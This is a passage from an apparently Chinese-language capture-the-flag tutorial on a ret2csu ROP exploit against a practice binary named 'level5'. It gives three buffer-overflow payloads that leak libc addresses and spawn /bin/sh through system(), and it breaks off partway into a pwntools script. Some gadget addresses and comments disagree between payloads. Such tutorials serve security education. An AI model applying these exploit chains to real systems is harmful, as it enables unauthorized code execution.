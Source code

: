 我们可以看到利用`0x40061a`处的代码我们可以控制`rbx,rbp,r12,r13,r14和r15`的值，随后利用`0x400600`处的代码我们将`r13`的值赋值给`rdx`, `r14`的值赋值给`rsi`,`r15`的值赋值给`edi`，随后就会调用`call qword ptr [r12+rbx8]`。这时候我们只要再将`rbx`的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx8]`之后，程序会对`rbx+=1`，然后对比`rbp`和`rbx`的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让`rbp`和`rbx`的值相等，我们可以将`rbp`的值设置为1，因为之前已经将`rbx`的值设置为0了。大概思路就是这样，我们下来构造ROP链。

我们先构造`payload1`，利用`write()`输出`write`在内存中的地址。注意我们的`gadget`是`call qword ptr [r12+rbx*8]`，所以我们应该使用`write.got`的地址而不是`write.plt`的地址。(这里是直接执行函数，所以需要调用真实的函数体，即got表中的write),并且为了返回到原程序中，重复利用`buffer overflow`的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的`main`函数为止。

```python
    # rdi= edi = r15,  rsi = r14, rdx = r13
    # write(rdi=1, rsi=write.got, rdx=4)
    payload1 =  "\x00"*136
    payload1 += p64(0x40061a) + p64(0) +p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x400600) # mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56       # 栈被抬升了56个字节，7*8=56
    payload1 += p64(main)
```

当我们exp在收到`write()`在内存中的地址后，就可以计算出`system()`在内存中的地址了。接着我们构造`payload2`，利用`read()`将“/bin/sh”读入到`.bss`段内存中。

```python
    #rdi=  edi = r15,  rsi = r14, rdx = r13
    #read(rdi=0, rsi=bss_addr, rdx=16)
    payload2 =  "\x00"*136
    payload2 += p64(0x400606) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0) # pop_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56       # 栈被抬升了56个字节，7*8=56
    payload2 += p64(main)
```

最后我们构造`payload3`,调用`system()`函数执行“/bin/sh”。

```python
    # rdi = bss_addr
    pop_rdi = 0x400623
    payload3 =  "\x00"*136
    payload3 += p64(pop_rdi) + p64(bss_addr) + p64(system_addr)
```

最终的exp:

```python
    #!/bin/usr/python
    from pwn import *

    elf = ELF('level5')
    libc = ELF('libc.so.6')

    p = process('./level5')

    got_write = elf.got['write']
    print "got_write: " + hex(got_write)
    got_read = elf.got['read']
    print "got_read: " + hex(got_read)

    main = 0x0400587

    off_system_addr = libc.symbols['write'] - libc.symbols['system']
    print "off_system_addr: " + hex(off_system_addr)

    # rdi= edi = r15,  rsi = r14, rdx = r13
    # write(rdi=1, rsi=write.got, rdx=4)
```